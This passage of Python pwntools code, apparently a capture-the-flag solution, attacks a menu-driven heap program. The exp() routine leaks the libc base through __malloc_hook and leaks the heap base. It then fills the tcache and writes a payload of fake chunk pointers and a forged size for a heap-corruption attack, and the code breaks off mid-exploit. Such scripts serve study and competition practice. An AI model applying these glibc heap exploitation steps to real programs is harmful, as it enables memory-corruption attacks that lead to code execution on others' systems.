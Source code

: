 ```py
    p.recvuntil("Size: ")
    p.sendline(str(size))

def Update(index,size,content):
    p.recvuntil('Command: ')
    p.sendline('2')
    p.recvuntil("Index: ")
    p.sendline(str(index))
    p.recvuntil("Size: ")
    p.sendline(str(size))
    p.recvuntil("Content: ")
    p.send(content)

def Delete(index):
    p.recvuntil('Command: ')
    p.sendline('3')
    p.recvuntil("Index: ")
    p.sendline(str(index))

def Show(index):
    p.recvuntil('Command: ')
    p.sendline('4')
    p.recvuntil("Index: ")
    p.sendline(str(index))

def exp():
    #leak libc
    Alloc(0x420)#0
    for i in range(8):
        Alloc(0xf8)#1~8
    Alloc(0xf8)#9
    Alloc(0xf8)#10
    Alloc(0xf8)#11
    Alloc(0x28)#12
    Delete(0)

    Alloc(0x420)#0

    Show(0)

    p.recvuntil("Chunk[0]: ")
    libc_base = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 0x60 - libc.sym['__malloc_hook'] - 0x10
    log.success("libc base => " + hex(libc_base))
    #leak heap
    Delete(1)
    Delete(2)

    Alloc(0xf8)#1
    Show(1)
    p.recvuntil("Chunk[1]: ")
    heap_base = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 0x690
    log.success("heap base => " + hex(heap_base))
    #fill the tcache
    Delete(1)
    for i in range(3,9):
        Delete(i)

    payload = p64(heap_base+0xe90)*2+'a'*0xe0+p64(0x1f0)
    Update(10,len(payload),payload)
    #
    fd = heap_base+0xf80
    bk = fd
```